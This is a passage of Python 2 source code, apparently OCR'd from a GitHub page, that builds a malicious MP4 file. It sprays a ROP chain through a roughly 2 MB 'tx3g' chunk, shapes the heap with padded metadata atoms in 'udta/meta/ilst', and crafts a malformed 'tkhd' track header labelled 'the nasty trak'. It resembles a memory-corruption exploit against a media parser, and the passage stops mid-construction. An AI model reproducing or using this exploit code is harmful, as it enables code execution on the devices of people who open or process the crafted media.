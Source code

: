     off = 0x34
    page = page[:off] + rop + page[off+len(rop):]
    spray = page * (((2*1024*1024) / len(page)) - 20)
    moov_data += make_chunk('tx3g', spray)
    block = 'A' * 0x1c
    bigger = 'B' * 0x40
    udta = make_chunk('udta',
        make_chunk('meta',
            struct.pack('>L', 0) +
            make_chunk('ilst',
                make_chunk('cpil',    make_chunk('data', struct.pack('>LL', 21, 0) + 'A')) +
                make_chunk('trkn',    make_chunk('data', struct.pack('>LL', 0, 0) + 'AAAABBBB')) +
                make_chunk('disk',    make_chunk('data', struct.pack('>LL', 0, 0) + 'AAAABB')) +
                make_chunk('covr',    make_chunk('data', struct.pack('>LL', 0, 0) + block)) * 32 +
                make_chunk('\xa9alb', make_chunk('data', struct.pack('>LL', 0, 0) + block)) +
                make_chunk('\xa9ART', make_chunk('data', struct.pack('>LL', 0, 0) + block)) +
                make_chunk('aART',    make_chunk('data', struct.pack('>LL', 0, 0) + block)) +
                make_chunk('\xa9day', make_chunk('data', struct.pack('>LL', 0, 0) + block)) +
                make_chunk('\xa9nam', make_chunk('data', struct.pack('>LL', 0, 0) + block)) +
                make_chunk('\xa9wrt', make_chunk('data', struct.pack('>LL', 0, 0) + block)) +
                make_chunk('gnre',    make_chunk('data', struct.pack('>LL', 1, 0) + block)) +
                make_chunk('covr',    make_chunk('data', struct.pack('>LL', 0, 0) + block)) * 32 +
                make_chunk('\xa9ART', make_chunk('data', struct.pack('>LL', 0, 0) + bigger)) +
                make_chunk('\xa9wrt', make_chunk('data', struct.pack('>LL', 0, 0) + bigger)) +
                make_chunk('\xa9day', make_chunk('data', struct.pack('>LL', 0, 0) + bigger)))
            )
        )
    moov_data += udta

    # Make the nasty trak
    tkhd1 = ''.join([
        '\x00',       # version
        'D' * 3,      # padding
        'E' * (5*4),  # {c,m}time, id, ??, duration
        'F' * 0x10,   # ??
        struct.pack('>LLLLLL',
            0x10000,  # a00
            0,        # a01
            0,        # dx
            0,        # a10
            0x10000,  # a11
            0),       # dy
        'G' * 0x14
        ])

    trak1 = ''
    trak1 += make_chunk('tkhd', tkhd1)

    mdhd1 = ''.join([
        '\x00',       # version
        'D' * 0x17,   # padding
        ])
